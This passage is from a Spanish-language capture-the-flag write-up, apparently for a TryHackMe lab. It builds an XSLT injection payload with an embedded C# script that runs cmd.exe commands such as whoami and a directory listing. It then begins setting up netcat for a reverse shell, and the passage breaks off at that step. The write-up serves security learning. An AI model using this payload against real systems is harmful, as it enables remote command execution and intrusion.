Ahora si, el payload quedaria:

```py
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \\
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \\
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \\
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\\
 proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = "whoami";\\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \\
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \\
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\\
 </xsl:template> </xsl:stylesheet> ';
```

* [How works **startInfo.FileName** and **startInfo.Arguments**](https://stackoverflow.com/questions/7160187/standardoutput-readtoend-hangs).

En la respuesta tenemos:

```bash
nada u.u
```

Básicamente buscando en internet, tenemos que debemos agregarlo algo a la cadena, el tema es que ejecuta `cmd.exe`, pero se queda con la consola abierta y nunca veremos el output.

En `Stack Overflow` alguien agrego que usar `/c` al inicio de la cadena le indica a la consola que debe cerrarse apenas ejecute el comando. Probémoslo:

* [How to pass mult args in **proc.StartInfo**](https://stackoverflow.com/questions/15061854/how-to-pass-multiple-arguments-in-processstartinfo#answer-15062027).

```bash
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = "/c whoami";\
...
```

Ejecutamos:

![anthem_bash_pyRCE_whoami](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_whoami.png)

Perfecto, ahora que tenemos ejecución de comandos, probemos cositas y veamos como conseguir la shell...

Debemos subir el binario `nc` a la maquina, nos apoyaremos de `PowerShell` para hacerlo:

▸ Listamos el directorio `TEMP`:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c dir ..\..\..\\Windows\\TEMP";\
...
```

![anthem_bash_pyRCE_dirTEMP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_dirTEMP.png)

▸ Ponernos en escucha donde tenemos el binario `nc`:
